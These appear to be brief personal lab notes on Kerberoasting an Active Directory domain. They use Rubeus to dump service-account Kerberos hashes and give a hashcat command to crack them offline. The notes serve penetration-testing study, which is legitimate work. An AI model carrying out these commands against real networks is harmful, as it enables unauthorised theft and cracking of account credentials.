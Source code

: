 ```yaml
---
title: '1. Method 1: Kerberoasting w/ Rubeus'
updated: 2023-04-01T20:20:56.0000000+04:00
created: 2023-04-01T12:36:48.0000000+04:00
---
```


PM
On the windows machine:

1.) cd Downloads

- navigate to the directory Rubeus is in

2.) Rubeus.exe kerberoast

- This will dump the Kerberos hash of any kerberoastable users

![image1](image1-142.png)

NOw that we found a hash for SAM account,
- Copy it to your kali machine
- Copy into a text file so we can crack after

![image2](image2-70.png)

Crack the Hash with hashcat:

- Hashcat -m 13100 -a 0 hash.txt Pass.txt

